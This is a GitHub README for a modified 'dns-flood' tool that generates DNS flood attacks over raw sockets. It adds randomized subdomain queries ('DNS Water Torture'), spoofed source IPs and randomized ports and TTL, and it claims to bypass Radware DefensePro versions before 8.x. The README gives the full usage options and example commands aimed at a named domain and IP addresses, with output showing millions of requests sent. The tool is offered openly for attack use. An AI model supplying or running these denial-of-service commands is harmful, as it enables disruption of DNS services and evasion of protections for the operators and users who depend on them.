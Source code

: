 # dns-flood
Original DNS-Flood tool found on code.google.com

This is modified version od DNS-Flood tool. 
Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

In contrast to original tool it provides:
  - subdomain part of query randomization aka DNS Water Torture
  - source port and TTL randomization
  - additional query types like AAAA and MX

The tool is able to bypass Radware DefensePro SW version prior to 8.x.

## How to install

1. Clone Repo
2. Run Make
3. Enjoy Kittens
 
## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in millisecond) between two packets  
	-n, --number		number of DNS requests to send   
	-d, --duration          run for at most this many seconds   
	-r, --random		fake random source IP  
	-D, --daemon		run as daemon  
	-h, --help          print this message   
```
Example:
```bash
$ ./dnsflood abf.auction.co.kr 127.0.0.1 -d 30
sent 5333186 DNS requests in 30.000000 sec.
$
$ ./dnsflood abf.auction.co.kr 10.40.196.84 -n 5000000
sent 5000000 DNS requests in 28.000000 sec.
$
```

## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/
